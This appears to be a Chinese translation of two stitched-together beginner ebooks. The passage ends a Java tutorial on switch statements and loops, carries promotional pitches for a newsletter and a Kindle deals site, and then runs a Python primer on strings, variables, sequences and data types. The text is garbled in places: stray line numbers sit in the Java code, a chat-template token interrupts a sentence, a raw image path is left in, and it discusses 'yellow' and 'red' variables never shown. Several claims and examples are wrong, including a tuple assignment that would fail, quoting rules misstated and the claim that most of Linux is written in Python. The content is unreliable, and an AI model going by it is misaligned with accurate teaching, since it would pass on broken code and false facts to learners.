switch 语句比 if-else 语句更有条理。如果以有条理的方式编写代码，程序也更容易维护。如果你有许多选项要呈现，那么应该使用 switch 语句。

以下是 switch 语句的语法：

```text
switch (<non-long integral expression>) {
    case 1:

        <statement 1>

        break;

    case 2:

        <statement 2>

        break;
    case n:

        <statement n>

        break;

    default:

        <statement>
} // end of switch or case statement
```

看看下面的示例程序：

```java
public class SwitchCaseStatementDemo {
public static void main(String[] args) {
    int a = 10, b = 30, c = 20;
    int response = 0;
    if (a > b && a > c) {
        response = 1;
    } else if (b > a && b > c) {
        response = 2;
    } else if (c > a && c > b){
        response = 3;
    }
    switch (response) {
    case 1:
        System.out.println("a is the biggest number");
    break;
    case 2:
        System.out.println("b is the biggest number");
    break;
20  case 3:
21      System.out.println("c is the biggest number");
22      break;
23  default:
24      System.out.println("Error encountered, try again");
25  }
26 }
27 }
```

你需要初始化 *int* 类型的 response，这是你的 *switch* 语句所需要的。如果你删除它，程序将无法运行。

你可以更改需要处理的数据并查看结果。你可以尝试更改每个 *if-else* 语句下的条件，看看会发生什么。确保当你更改某些内容时，更改应与整个程序保持一致。否则，程序将无法运行或产生不同的结果。

### 循环语句

循环语句包括：while 语句、do-while 语句和 for 语句。

#### while 语句

while 语句告诉程序，只要条件或语句保持为真，就继续执行其下方的代码块。只有当语句变为假时，程序才会停止重复或执行代码指令。

以下是 while 循环的语法：

```text
while (<loop condition>)
<statements>
```

以下是示例程序：

```java
1  public class SampleWhileLoop {
2
3  public static void main(String[] args) {
int count = 1;

System.out.println("Output Numbers 1 - 10");

while (count != 11) {
    System.out.println(count++);
}
}
}
```

我们需要将 *int* 类型的 count 初始化为 1。在第6行，这只意味着当 count 已经等于 11 时，它不会再打印。第7行中的‘count++’告诉程序将 count 递增 1，因此在下一轮循环中它将打印 2。它需要再次递增 count，在下一轮循环中它将打印 3，依此类推，并且只有当 count 等于 11 时才会停止打印。

#### do-while 语句

do-while 循环或语句类似于 while 语句，不同之处在于先给出操作，然后才是程序在执行语句前要检查的实际条件。这可以给程序更多控制，因为它确保循环至少执行一次。

以下是 do-while 语句的语法：

```text
do
<loop body>
while (<loop condition>);
```

以下是一个示例程序：

```java
1 public class SampleDoWhileStatement {
2
3 public static void main(String[] args) {
4 int sheep = 1;
5 System.out.println("Output Numbers 1 - 10");
6 do {
7 System.out.println(sheep++);
8 } while (sheep <= 10);
9 }
10 }
```

#### for 循环或语句

for 循环适用于需要执行某个代码块一定次数的任务或程序。它就像只要条件保持为真，就一遍又一遍地重复同一过程。你需要初始化将控制循环的计数器。

这是你需要遵循的语法：

```text
for (<initialization>; <loop condition>; <increment expression>)
<loop body>
```

以下是示例程序：

```java
1 public class SampleForLoop {
2
3     public static void main(String[] args) {
4         System.out.println("Output Numbers 1 - 10");
5         for (int number = 1; number <= 10; number++) {
6             System.out.println(number);
7         }
8     }
9 }
```

查看第5行，你需要初始化计数器‘number’，设置 number 必须小于或等于 10 的条件，并将 number 递增 1。下一条语句打印计数器数字，它最初是‘1’。

当计数器数字变为 2 时，它仍然小于 10，计数器再次递增 1。下一条语句现在将打印‘2’。

整个循环将重复，直到计数器数字 = 10。计数器仍将递增 1，最后一条语句将打印‘10’。

一旦计数器数字变为 11，它就不再满足下一个条件：计数器数字应小于或等于 10。程序将不再执行剩余的语句。

Java 易学有趣。继续进步，发现更多可以用 Java 编程完成的美妙事情。

## 结论

再次感谢你下载本书！

我希望本书能帮助你理解轻松创建 Java 程序所需了解的 Java 基础知识。

下一步是继续练习你所学的内容，并在过程中学习更多命令。

最后，如果你喜欢本书，我想请你帮个忙：你能否在 Amazon 上为本书留下评论？我将不胜感激！

点击此处为本书在 Amazon 上留下评论！

另外，请务必订阅我的技术和编程新闻通讯，以获取你的免费书籍，并了解更多关于如何编程的信息。点击此处。

谢谢，祝你好运！

点击此处获取使用 Bluehost 设置 Wordpress 网站的分步说明。


## 奖励：通过我获得更多免费图书！

谢谢你阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我想赠送你更多免费图书以及与编程和技术相关的信息！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真想要提升编程技能，对你都会有用。我将提供：

- 我撰写的更多图书
- 我如何在创纪录的时间内学会编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

如果你还没有，务必查看我的新网站，*KindleBookSpot.com*。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式，在一个地方找到最热门的 Kindle 图书的折扣价。以下是我的网站提供的一些详情：

- 最畅销免费 Kindle 图书的列表
- 折扣小说和非小说图书
- 每周图书
- 精选图书
- 在我的网站上推广你自己的图书

这个网站不仅仅是为读者准备的，也是新兴作者在他们的图书成为畅销书之前推广新书的地方。所以如果你想推广自己的图书，请查看我的网站，*KindleBookSpot.com*。

我希望这个网站对你有用，也希望在那里见到你！

订阅 KindleBookSpot 的不断增长的社区，在最好的图书打折和免费时收到通知。

# Python Bootcamp

## 理解 Python 计算机语言基础的速成课程

*在 [KindleBookSpot.com](https://KindleBookSpot.com) 获取更多免费和特价图书*

## 目录

引言

第一章：什么是 Python？

第二章：Python 的交互模式

第三章：基础知识

第四章：序列

第五章：不同类型的数据

第六章：你将遇到的错误

结论

## 引言

我要感谢你并祝贺你下载了图书，“*《Python 编程入门》*。”

本书包含经过验证的步骤和策略，教你如何掌握 Python 编程语言的基本要素。

这本电子书将教你有关 Python 的重要信息。它将解释 Python 程序员正在使用的概念和思想。此外，它还将提供实际的代码和语句。这意味着你将了解 Python 语言的理论和实践方面。

在本书中你将学习：

- 什么是 Python
- 如何使用 Python
- 常见的 Python 数据
- 以及更多！

再次感谢你下载这本书。我希望你喜欢它！

## 开始之前 … 奖励：通过我获得更多免费图书！

谢谢你阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我想赠送你更多免费图书以及与编程和技术相关的信息！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真想要提升编程技能，对你都会有用。我将提供：

- 我撰写的更多图书
- 我如何在创纪录的时间内学会编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

详情见底部。

## 第 1 章：什么是 Python？

Python 是一种高级且结构化的编程语言。你可以用它来完成各种编程任务。此外，Python 是一种开源语言：全球成千上万的计算机专家每天都在使用和改进它。一位名叫 Guido Van Rossum 的荷兰程序员在 90 年代初期创建了 Python。他以一部名为 Monty Python's Flying Circus 的喜剧节目命名。

计算机专家认为 Python 是一种强大的编程语言。系统管理员正在使用它来开发不同类型的计算机软件。实际上，Python 大大帮助改进了 Linux 系统。Linux 的大多数主要组件都是用 Python 编写的。IT 教授也使用这种语言教授基础编程。这意味着 Python 是多功能、强大且易于学习的。

在执行之前，这种编程语言会自动编译为字节码。系统将字节码保存到硬盘上。这意味着除非对源代码进行更改，否则用户无需执行编译。此外，Python 是一种动态类型编程语言，允许（但不要求）面向对象的构造和特性。

与其他编程语言不同，Python 将空白视为其代码的重要组成部分。事实上，空白的重要性是 Python 最显著的属性。与 C 编程语言使用的块定界符不同，Python 使用缩进来指示代码块的开始和结束点。

Python 的另一个很酷的方面是它适用于所有平台。你可以轻松地在 Linux、Macintosh 和 Windows 计算机上安装和使用 Python。这意味着使用这种语言编写的计算机程序具有极强的可移植性：你可以用任何可用平台使用它们。

## 第 2 章：Python 的交互模式

Python 编程语言有 2 种不同的模式：

- 1. 普通模式 – 在此模式下，你将使用内置解释器运行已编写完成的 Python 文件。
- 2. 交互模式 – 这是一个命令行程序，可以为你的每个语句提供即时反馈。此模式在执行机器内存中存储的先前语句时会给出反馈。从技术上讲，交互模式在将新语句输入到 Python 解释器时，会单独和整体地评估语句。

本章将重点介绍交互模式。要激活它，只需输入“ python ”而不添加任何参数。这是一种学习编程语言的绝佳方式：你会尝试语句和语法变体。在输入“ python ”后，屏幕会显示类似于下面的消息：

```
$ python
Python 3.0b3 (r30b3:66303, Sep 5 2008, 14:01:02) [ISC v.1500 32 bit (Intel)]
on win32
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

重要提示：如果 Python 不能工作，请确保你已正确设置路径。

请注意，消息末尾有“ >>> ”。这些符号表示你正在使用 Python 的交互模式。在这里，系统会立即运行你输入的任何内容。实际上，如果你输入 1 + 1，Python 会给你 2。你可以使用此模式熟悉 Python 并测试其功能。如果你学习了新语句，激活交互模式并逐一检查它们。

下图显示了一个交互会话：

```python
>>> 5
5
>>> print(5*7)
35
>>> "hello"
'hello'
>>> "hello".__class__
<type 'str'>
```

正如你所见，Python 的交互环境是一个出色的学习和编程工具。然而，使用它时你必须极其小心，因为有时它会令人困惑。例如，下图显示了一个在交互模式下被认为是有效的 Python 脚本：

```python
if 1:
    print("True")
print("Done")
```

如果你按所示在交互模式下使用此脚本，你会得到一个惊人的结果：

```text
>>> if 1:
...     print("True")
... print("Done")
  File "<stdin>", line 3
    print("Done")
        ^
SyntaxError: invalid syntax
```

Python 解释器说第二个 print 的缩进是意外的。在编写下一条语句之前，你需要使用一个空行结束第一条语句（即“if”语句）。例如，你必须以以下格式输入语句：

```text
>>> if 1:
...     print("True")

Blank Line

>>> print("Done")
```

这将给出以下结果：

```text
>>> if 1:
...     print("True")
...
True
>>> print("Done")
Done
>>>
```

## 交互模式

你可以使用“-i”来激活交互模式。这个标志会让 Python 在程序结束后不关闭。计算机程序员经常使用这个标志，尤其是在原型设计和调试阶段。下面是一个示例：

```
python -i hello.py
```

- *它允许用户通过在最后一个字符后放置逗号来表示多行语句。*

你刚刚完成了自己的程序。现在，你已准备好使用 Python 运行它。请注意，此过程会因你所使用的操作系统（即 OS）而有所不同。

### *对于 Windows 计算机：*

- 1. 创建一个新文件夹。你只应将该文件夹用于 Python 计算机程序。将 hello.py 文件保存在此文件夹中。在本练习中，假设你将文件夹命名为："C:\pythonfiles"
- 2. 访问“开始”菜单并选择“运行...”
- 3. 在对话框中输入“cmd”，打开操作系统的终端。
- 4. 输入 cd \pythonfiles 并按 Enter。此操作会将 pythonfiles 文件夹设置为目录。
- 5. 输入 hello.py（即程序的文件名）来运行程序。

### *对于 Mac 计算机：*

- 创建一个仅用于 Python 程序的文件夹。在本练习中，将此文件夹命名为“pythonfiles”，并将其保存在计算机的主文件夹中（即包含音乐、影片、图片、文稿等文件夹的那个文件夹）。
- 将 hello.py 程序保存到 pythonfiles 文件夹中。
- 访问计算机的“应用程序”部分，进入“实用工具”，并启动“终端”软件。
- 在对话框中输入 cd pythonfiles 并按 Enter。
- 通过输入 `python ./hello.py` 运行 Hello, World! 程序。

### *对于 Linux 计算机：*

- 创建一个文件夹并将其命名为“pythonfiles”。然后，将 hello.py 文件保存在其中。
- 激活计算机的终端程序。请遵循以下说明：
  - KDE 用户——转到主菜单并选择“运行命令...”
  - GNOME 用户——转到主菜单，访问“应用程序”部分，打开“附件”，然后选择“终端”。
- 输入 `cd ~/pythonpractice`
- 通过输入 `python ./hello.py` 运行程序

### 结果

屏幕必须显示：

Hello, World!

就是这样。如果你的计算机屏幕显示此消息，那么你做得非常出色。你离成为一名优秀的 Python 程序员又近了一步。

## Python 语言中的变量与字符串

本节将重点介绍字符串和变量。作为初学者，你应该知道这两种数据类型在 Python 编程语言中发挥着巨大作用。

### 变量

基本上，变量是保存可变值的东西。这意味着你可以把变量看作能够容纳不同种类内容的盒子。请记住，你可以使用变量保存不同的东西。不过，目前我们先使用它们来存储数字。请看下面的截图：

```
lucky = 7
print (lucky)
7
```

上面的代码生成了一个名为“lucky”的变量。随后，它将该变量赋值为一个数字（即 7）。如果你向 Python“询问”lucky 中存储的数据，你会得到 7 作为响应。

你也可以编辑变量内部的值。例如：

```
changing = 3
print (changing)
3

changing = 9
print (changing)
9

different = 12
print (different)
12
print (changing)
9

changing = 15
print (changing)
15
```

使用上面的代码，你保存了一个名为“changing”的变量，将数字 3 赋给它，并确认第一条语句是正确的。随后，你将数字 9 赋给该变量，并向系统询问新内容。Python 语言用 9 替换了 3。

等等！代码不是告诉 Python，yellow 的值必须等于 red 的值吗？为什么截图中显示 yellow 的值是 5，而 red 的值是 10？很简单。代码指示 Python 语言：在编写代码的那一刻，yellow 应具有 red 的值。一旦 Python 给后者（yellow）赋值，red 与 yellow 之间的联系就停止了。Yellow 得到了 5——并且无论其原始来源发生什么，5 都会保持不变（除非给出新语句）。

### 字符串

基本上，字符串是按特定排列方式排列的字符列表。

什么是“字符”？让我们把这个概念与一个实物联系起来：键盘。你可以使用键盘输入的任何内容都被视为一个字符（例如数字、字母、标点符号等）。

例如，“Birthday”和“Halloween”是字符串。这些字符串由字母（即字符）组成。你也可以在字符串中添加空格：“good morning”包含 12 个字符：good = 4，空格 = 1，morning = 7。目前，你可以在 Python 字符串中包含任意数量的字符。这意味着你可以使用的字符数量没有限制。实际上，你甚至可以创建一个不含任何字符的字符串（程序员称之为“空字符串”）。

使用 Python，你可以通过三种不同方式声明字符串：

- 1. (') —— 使用单引号
- 2. (") —— 使用双引号
- 3. (""") —— 使用三引号

你可以使用其中任何一种方法。但是，请确保在字符串声明方面保持一致。使用相同的声明开始和结束字符串。请看下面的截图：

```python
>>> print ('I am a single quoted string')
I am a single quoted string
>>> print ("I am a double quoted string")
I am a double quoted string
>>> print ("""I am a triple quoted string""")
I am a triple quoted string
```

如你所见，引号用于开始和结束字符串。默认情况下，Python 会将语句中的引号视为字符串开始或结束的标记。

然而，在某些情况下，你必须在语句中包含引号。这意味着你必须阻止 Python 过早结束你的语句（即当它看到代码中的引号时）。你可以使用反斜杠来实现这一点。通过在引号前添加反斜杠，你是在告诉 Python 那些引号包含在字符串中。在另一个符号前放置反斜杠的行为被称为“转义”该特定符号。

重要提示：向 Python 字符串添加反斜杠时，你仍然需要“转义”它（即在所需的反斜杠前再放置一个反斜杠）。此操作会告知 Python，该反斜杠必须作为普通符号使用。分析下面的截图：

```python
>>> print ("So I said, \"You don't know me! You'll never understand me!\"")
So I said, "You don't know me! You'll never understand me!"
>>> print ('So I said, "You don\'t know me! You\'ll never understand me!"')
So I said, "You don't know me! You'll never understand me!"
>>> print ("This will result in only three backslashes: \\ \\ \\")
This will result in only three backslashes: \ \ \
>>> print ("""The double quotation mark (") is used to indicate direct quotations.""")
The double quotation mark (") is used to indicate direct quotations.
```

分析上面的示例后，你会意识到只有用于引用字符串的字符必须被转义。这条简单规则使 Python 语句易于阅读。

为了帮助你进一步理解字符串，让我们回顾你的第一个 Python 程序：

```python
>>> print("Hello, world!")
Hello, world!
```

嗯，看来你在了解字符串之前就已经使用过它们了。你还可以在 Python 编程语言中连接字符串。连接是通过在两个不同字符串之间添加“+”号来组合它们的过程。让我们再次使用同一个程序：

```python
>>> print ("Hello, " + "world!")
Hello, world!
```

在上面的示例中，“Hello,”和“world!”作为单独的字符串输入。这是通过将两个字符串都括在引号中完成的。然后，在字符串之间添加“+”号以组合（即连接）它们。你看到逗号和引号之间的空格了吗？该空格是必需的：没有它，你会得到以下字符串：

```text
Hello,world!
```

Python 还允许你重复字符串。这意味着你不必多次输入相同内容。要重复字符串，只需使用星号：

```python
>>> print ("bouncy, " * 10)
bouncy, bouncy, bouncy, bouncy, bouncy, bouncy, bouncy, bouncy, bouncy, bouncy,
```

最后，你可以利用“len()”来统计组成任意字符串的字符数。你只需将要检查的字符串放在括号内。下面是一个示例：

```python
>>> print (len("Hello, world!"))
13
```

### *变量与字符串——如何一起使用它们*

现在你已经知道字符串和变量如何工作，你已准备好一起使用它们。

如前所述，变量可以保存不同类型的信息——甚至字符串。下面是一个示例：

```python
question = "What did you have for lunch?"
print (question)
```

上面的程序创建了一个名为“question”的变量。然后，它将字符串“What did you have for lunch?”存储在该变量中。最后，它指示 Python 输出

字符串。

需要注意的是，你不应该用引号将变量括起来。通过省略引号，你是在告诉 Python 你使用的是“question”作为变量，而不是作为字符串。如果你用引号将变量括起来，Python 会将其视为普通字符串。它会输出“question”，而不是“What did you have for lunch?”

### 如何组合字符串和数字

分析下面的截图：

```python
print ("Please give me a number: ")
number = raw_input()

plusTen = number + 10
print ("If we add 10 to your number, we get " + plusTen)
```

这段代码旨在从程序员那里接受一个数字，给该数字加上十，并输出总和。然而，如果你运行它，你会得到以下错误信息：

```
Traceback (most recent call last):
  File "test.py", line 7, in <module>
    print "If we add 10 to your number, we get " + plusTen
TypeError: cannot concatenate 'str' and 'int' objects
```

这里发生了什么？而不是输出一个数字，Python 显示了“TypeError”。这条消息意味着输入的信息存在问题。具体来说，Python 无法确定如何组合正在使用的两种数据类型：字符串和整数。

例如，Python 假定“number”（即一个变量）包含的是字符串，而不是数字。如果程序员输入“15”，Python 会认为该变量保存的是一个由 1 和 5 组成的 2 字符字符串。你能做什么来告知 Python 15 是一个数字？

此外，在询问答案时，你指示 Python 将一个数字（即 plusTen）和一个字符串组合起来。编程语言不知道如何完成这个操作。Python 只能组合两个字符串。如何让 Python 将数字视为字符串，以便你能将其与其他字符串一起使用？

幸运的是，你可以使用两个强大的函数：

- 1. `str()` – 该函数可以将数字转换为字符串。
- 2. `int()` – 该函数可以将字符串转换为数字。

使用这些函数时，你只需将想要转换的字符串/数字放在括号内即可。如果你将此方法应用于前面给出的代码，你将得到以下结果：

```python
print ("Please give me a number:",)
response = raw_input()

number = int(response)
plusTen = number + 10

print ("If we add 10 to your number, we get " + str(plusTen))
```

## 基本概念

Python 有 5 个基本概念，分别是：

- **1. Scope** – 对于大型系统，你必须限制代码之间的关系。这对于防止错误或不可预测的系统行为很重要。如果你不限制你的代码对其他代码的影响，整个系统可能会变得混乱。

你可以通过为每个程序员分配特定的名称组来控制代码的“scope”。例如，一个程序员使用国家名称，而另一个程序员使用动物名称。这种技术可以帮助限制 Python 代码之间的连接。

- **2. Objects** – 与其他面向对象的语言类似，Python 使用代码和数据组。

在 Python 中，你将使用“Classes”（该编程语言中使用的模板集）创建（即实例化）对象。对象拥有“attributes”，它们存储构成对象的不同数据和代码片段。

访问对象的属性很容易：
  - 1. 输入对象的名称并在其后加上一个点。
  - 2. 指定你想要访问的属性名称。

- **3. Namespaces** – Python 有 dir()，这是一个预装的函数，可以帮助你理解命名空间。启动 Python 解释器后，你可以使用 dir() 显示默认或当前命名空间中的对象。查看下面的截图：

```python
Python 2.3.4 (#53, Oct 18 2004, 20:35:07) [MSC v.1200 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> dir()
['__builtins__', '__doc__', '__name__']
```

你也可以使用 dir() 列出模块命名空间中的可用名称。对于此示例，让我们对 __builtins__（来自上面截图的对象）使用 type()。该函数，即 type()，允许我们知道对象的类型。查看下面的截图：

```python
>>> type(__builtins__)
<type 'module'>
```

图像显示 __builtins__ 是一个模块。这意味着你可以使用 dir() 列出 __builtins__ 内部的名称。你将得到以下结果：

```python
>>> dir(__builtins__)
['ArithmeticError', ... 'copyright', 'credits', ... 'help', ... 'license', ... 'zip']
>>>
```

这个概念很容易理解。基本上，命名空间是名称可以存在的地方。命名空间内的每个名称都与命名空间外的名称完全不同。计算机程序员将这种“命名空间分层”称为“scope”。通常，如果这些名称有值，你应该将名称放在命名空间内。例如：

```python
>>> dir()
['__builtins__', '__doc__', '__name__']
>>> name = "Bob"
>>> import math
>>> dir()
['__builtins__', '__doc__', '__name__', 'math', 'name']
```

上面的图像显示你只需使用一个简单的语句（即“import”）就可以向任何命名空间添加名称。该代码使用 import 语句将“math”添加到活动命名空间。如果你想知道该对象是什么，你可以运行以下命令：

```python
>>> math
<module 'math' (built-in)>
```

它说“math”是一个模块。因此，它有自己的命名空间。你可以使用 dir() 函数显示 math 命名空间内部的名称：

```python
>>> dir(math)
['__doc__', '__name__', 'acos', 'asin', 'atan', 'atan2', 'ceil', 'cos', 'cosh', 'degrees', 'e',
'exp', 'fabs', 'floor', 'fmod', 'frexp', 'hypot', 'ldexp', 'log', 'log10', 'modf', 'pi', 'pow',
'radians', 'sin', 'sinh', 'sqrt', 'tan', 'tanh']
>>>
```

- **4. Case Sensitivity** – 变量始终区分大小写。这意味着“SMITH”、“Smith”和“smith”是三个不同的变量。

- **5. Tabs and Spaces Don’t Mix** – 由于空白在 Python 中很重要，请记住制表符和空格不能混合使用。缩进 Python 语句时要保持一致。如果你使用空格进行缩进，请坚持使用该字符。这是一个许多初学者会忘记的重要概念。

虽然制表符和空格看起来相同，但 Python 解释器读取时它们具有不同的含义。这意味着如果你在语句中混合使用它们，你会遇到错误或奇怪的结果。

重要提示：如果你喜欢使用空格，请确保每次缩进都按四次空格键。

## 第 4 章：序列

序列是编程中的基本结构之一，允许你轻松高效地保存值。Python 支持三种类型的序列，分别是：列表、元组和字符串。让我们详细讨论每种序列：

### 列表

正如其名称所示，列表是遵循特定排列的值集合。你可以使用方括号创建列表。例如，你可以使用下面的语句初始化一个空列表：

```python
spam = []
```

你应该使用逗号分隔值。这是一个示例列表：

```python
spam = ["bacon", "eggs", 42]
```

你可以在同一个列表中放置不同类型的值。例如，上面的列表包含数字和字母。

与字符串中的字符类似，你可以使用从零开始的索引访问列表项。访问列表项很容易。你只需指定该项目所属的列表名称。然后，指出列表中项目的编号。使用方括号括住该数字。这是一个例子：

```python
>>> spam
['bacon', 'eggs', 42]
>>> spam[0]
'bacon'
>>> spam[1]
'eggs'
>>> spam[2]
42
```

Python 也允许你输入负整数。这些数字从列表的最后一项开始倒数。

```python
>>> spam[-1]
42
>>> spam[-2]
'eggs'
>>> spam[-3]
'bacon'
```

你可以使用 len() 确定列表中项目的数量。查看下面的图像：

```python
>>> len(spam)
3
```

列表在一点上与典型变量相似：它们允许你更改其中的项目。分析以下示例：

```python
>>> spam = ["bacon", "eggs", 42]
>>> spam
['bacon', 'eggs', 42]
>>> spam[1]
'eggs'
>>> spam[1] = "ketchup"
>>> spam
['bacon', 'ketchup', 42]
```

你也可以切片字符串：

```python
>>> spam[1:]
['eggs', 42]
>>> spam[:-1]
['bacon', 'eggs']
```

Python 提供了向任何列表添加项目的不同方法。然而，最简单的方法是：

```python
>>> spam.append(10)
>>> spam
['bacon', 'eggs', 42, 10]
```

要删除项目，你可以对列表应用“del”语句。这是一个例子：

```python
>>> spam
['bacon', 'and', 'eggs', 42, 10]
>>> del spam[1]
>>> spam
['bacon', 'eggs', 42, 10]
>>> spam[0]
'bacon'
>>> spam[1]
'eggs'
>>> spam[2]
42
>>> spam[3]
10
```

列表会在每次删除项目后自动“修复”自身。这意味着你不会看到项目编号中的任何空隙。

## *元组*

元组和列表相似，除了一个区别：元组不能被编辑。创建元组后，你将无法以任何方式更改它。你不能扩展、编辑或删除元组中的元素。如果忽略这种不可变性，可以说列表和元组是相同的。

你应该在声明元组时使用逗号：

```
unchanging = "rocks", 0, "the universe"
```

有时，你必须使用括号来区分元组。此过程类似于使用同一行执行多个赋值。以下是一个简单示例：

```
foo, bar = "rocks", 0, "the universe" # 3 elements here
foo, bar = "rocks", (0, "the universe") # 2 elements here because the second element is a tuple
```

## 字符串

你已经了解了字符串。然而，作为 Python 序列再次讨论它很重要。对于其他编程语言，你可以使用方括号（称为下标运算符）访问字符串内部的字符元素。此方法在 Python 中也有效：

```text
>>> "Hello, world!"[0]
'H'
>>> "Hello, world!"[1]
'e'
>>> "Hello, world!"[2]
'l'
>>> "Hello, world!"[3]
'l'
>>> "Hello, world!"[4]
'o'
```

Python 使用以下公式为索引分配数字：0 – n-1（n 表示字符串中字符的数量）。请查看下面的截图：



索引与它们后面的字符一起工作。对于负索引，你应该倒着数：

```text
>>> "Hello, world!"[-2]
'd'
>>> "Hello, world!"[-9]
'o'
>>> "Hello, world!"[-13]
'H'
>>> "Hello, world!"[-1]
'!'
```

与其他编程语言不同，Python 允许你在方括号内放置最多 2 个数字。你可以使用冒号（即“：”）来实现。对于专注于数字索引的序列，括号和冒号的组合会返回索引之间的部分。这种技术称为“切片”。如果你对字符串进行切片，你将得到“子字符串”。请分析下面的截图：

```
>>> "Hello, world!"[3:9]
'lo, wo'
>>> string = "Hello, world!"
>>> string[:5]
'Hello'
>>> string[-6:-1]
'world'
>>> string[-9:]
'o, world!'
>>> string[:-8]
'Hello'
>>> string[:]
'Hello, world!'
```

上面给出的语句显示了一条重要规则：

> “ 如果你省略一个数字，Python 会假设缺失的数字为该特定序列的开始或结束（取决于缺失数字的位置）。 ”

## 字典

字典类似于列表。不像元组，字典允许用户修改其内容。这意味着你可以添加、编辑和删除任何字典的元素。列表和字典之间的主要区别是：字典不会将其元素绑定到任何数字。

字典的元素有两个方面：（1）键和（2）值。如果你调用字典的键，你将得到与该特定键相关的数值。计算机程序员将列表视为特殊字典，其中数字代表每个元素的键。

## 如何使用字典

你应该在声明字典时使用大括号。此外，你应该在声明字典元素时使用以下格式：（1）输入元素的键，（2）添加冒号，（3）分配值。以下是一个示例：

```
>>> definitions = {"guava": "a tropical fruit", "python": "a programming language", "the answer": 42}
>>> definitions
{'python': 'a programming language', 'the answer': 42, 'guava': 'a tropical fruit'}
>>> definitions["the answer"]
42
>>> definitions["guava"]
'a tropical fruit'
>>> len(definitions)
3
```

此外，向字典添加元素很简单且容易。它就像添加一个普通变量：

```
>>> definitions["new key"] = "new value"
>>> definitions
{'python': 'a programming language', 'the answer': 42, 'guava': 'a tropical fruit', 'new key': 'new value'}
```

## 第5章：不同类型的数据

基本上，数据类型定义了对象的功能。在其他语言中，操作的效率是通过确保对象不能存储在操作将要执行的位置来测试的。此系统称为静态类型。

然而，Python 使用不同的方法。此编程语言允许你将对象的数据类型存储在对象内部。Python 还会在你运行它们时立即检查每个操作的有效性。程序员将此系统称为动态类型。

本章重点介绍你可以用 Python 使用的不同种类的数据。

## 标准类型

Python 有一组标准数据类型。这些类型已预装到此编程语言中。让我们将这些类型分成小组。本节将使用 Python 官方文档中使用的层次系统：

## 数值类型

- int – 这代表整数。对于 Python 2.x，“int” 与 C long 相同。
- long – 它代表长度不受限制的长整数。你会在使用 Python 2.x 的系统中找到此类型。
- float – 它代表浮点数。Float 在 C 中等同于 double。
- complex – 此类型由复数组成。

## 序列

- list
- tuple
- byte – 这是 0-255 范围内的数字序列。你会在使用 Python 3.x 的系统中找到 bytes。
- byte array – 这是 bytes 的可变版本。
- str – 这代表“字符串”。Python 2.x 系统将字符串表示为 8 位项目的序列。然而，Python 3.x 系统则将它们表示为 Unicode 项目的序列。

## 集合

- set – 这是一组无序的独立对象。
- frozen set – 此类型是集合的不可变版本。

## 映射

- dict – 这代表 Python 字典。计算机程序员将此类型称为“hashmap”或“关联数组”。通常，字典的每个元素都有对应的定义。

## 可变与不可变对象

在 Python 语言中，数据类型是根据其内容的<|message|> 可变性进行分类的。请记住，不可变数据类型会阻止你更改其中的对象。这意味着你会成功地对可变数据的对象进行切片或重新分配。然而，不可变对象会给你一个错误消息。

这里有一个你应该记住的重要原则：变量是机器内存中对象的简单引用。让我们假设你使用以下语句将一个对象和一个变量配对：

```
a = 1
s = 'abc'
l = ['a string', 456, ('a', 'tuple', 'inside', 'a', 'list')]
```

通过上面给出的语句，你使变量（即 1、a 和 s）指向某些对象。Python 在机器的内存中存储变量和对象之间的这种关系。因此，你可以随时方便地访问对象。

对于下一个示例，假设你使用下面的代码执行了重新赋值：

```
a = 7
s = 'xyz'
l = ['a simpler list', 99, 10]
```

在此新语句中，你将变量链接到其他对象。正如你之前学到的，你只能更改可变对象（l [0] = 1 是好的，但 s [0] = “ a ”会给你一个错误消息）。

## 如何创建指定类型对象

- *Literal Integers* – 你可以用三种不同方式输入字面整数：
  - For decimal numbers – 你可以直接输入这些数字。
  - For hexadecimal numbers – 你必须在前面加上 0X 或 0x 来输入这种数字。
  - For octal literals – 输入这些整数的方法取决于你使用的 Python 版本：
    - For Python 2.x – 你必须在前面加上零来输入八进制。
    - For Python 3.x – 你应该在前面加上 0o 或 0O 来输入八进制。
- *Floating Point Integers* – 你可以直接输入这些数字。
- *Long Integers* – 你可以用两种方式输入长整数：
  - Directly (112233445566778899 is considered as a long integer)
  - By appending the letter “ L ” (1L is considered as a long integer).

如果涉及短整数的计算溢出，它会自动转换为长整数。

- *Complex Numbers* – 你可以通过添加两个数字（即实数和虚数）来输入此对象。然后，通过附加字母“j”来输入这些数字。这意味着 11+2j 和 11j 是复数。
- *Strings* – 你可以将字符串输入为单引号或三引号对象。这两种类型的区别在于它们的定界符和潜在长度。单引号字符串仅限于一行。你可以使用单引号或双引号对来输入单引号字符串。查看以下示例：

```
'foo' works, and
"moo" works as well,
but
'bar" does not work, and
"baz' does not work either.
"quux'' is right out.
```


三引号字符串与单引号字符串类似，但可以跨越多行。显然，它们的定界符（即引号）应匹配。你必须使用 3 个单引号或双引号来输入这些字符串。以下是供你参考的说明性截图：

```
'''foo''' works, and
"""moo""" works as well,
but
'''bar''' does not work, and
"""baz""" does not work either.
'''quux''' is right out.
```

- *元组* — 你可以使用括号输入元组。在对象之间放置逗号以分隔它们。

    ```
    (10, 'Mary had a little lamb')
    ```

    你可以通过将元组括在括号中并添加逗号来输入单元素元组。以下是一个示例：

    ```
    ('this is a stupid tuple',)
    ```

- *列表* — 列表的工作方式与元组类似，只是需要使用方括号：

    ```
    ['abc', 1, 2, 3]
    ```

- *字典* — 你可以通过列出一些值对并使用冒号分隔每一对来创建“Python 字典”。使用逗号分隔字典条目。然后，使用大括号括住语句。请查看下面的图片：

    ```
    { 'hello': 'world', 'weight': 'African or European?' }
    ```

### 空对象

Python 使用“None”作为空指针的类似物。在这方面，Python 与许多编程语言相似。实际上，“None”本身并不是空引用或空指针——它是一个只有一个实例的对象。你可以将“None”用作函数的默认值参数。在 Python 中，你必须使用“is”而不是“==”来比较对象与“None”。

## 第 6 章：你将遇到的错误

Python 用户会遇到三种错误：异常、逻辑错误和语法错误。

### 异常

